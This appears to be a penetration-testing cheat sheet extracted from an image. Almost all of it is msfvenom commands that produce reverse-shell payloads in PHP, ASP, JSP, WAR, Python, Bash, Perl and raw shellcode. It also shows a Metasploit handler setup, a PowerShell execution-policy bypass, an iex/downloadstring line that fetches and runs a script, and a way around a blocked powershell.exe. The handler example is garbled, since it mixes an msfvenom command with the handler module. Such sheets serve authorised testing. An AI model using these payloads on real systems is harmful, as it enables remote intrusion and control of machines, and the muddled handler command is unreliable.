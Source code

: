   - Listener

-       cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
  - PHP
-       msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
  - ASP
-       msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
  - JSP
-       msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
  - WAR

### **Scripting Payloads**

- `msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py`
  - Python
-       msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
  - Bash
-       msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
  - Perl

### **Shellcode**

For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

-       msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f
-       msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f
-       msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f

### **Handlers**

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

    exploit/multi/handler

An example is:

    msfvenom exploit/multi/handler -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f > exploit.extension

# **Powershell**

**Execution Bypass**

- Set-ExecutionPolicy Unrestricted 
  ./file.ps1
- Import-Module script.psm1
  Invoke-FunctionThatIsIntheModule
- iex(new-object system.net.webclient).downloadstring(“file:///C:\\examplefile.ps1”)

**Powershell.exe blocked**

- Use ‘not powershell’ [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)
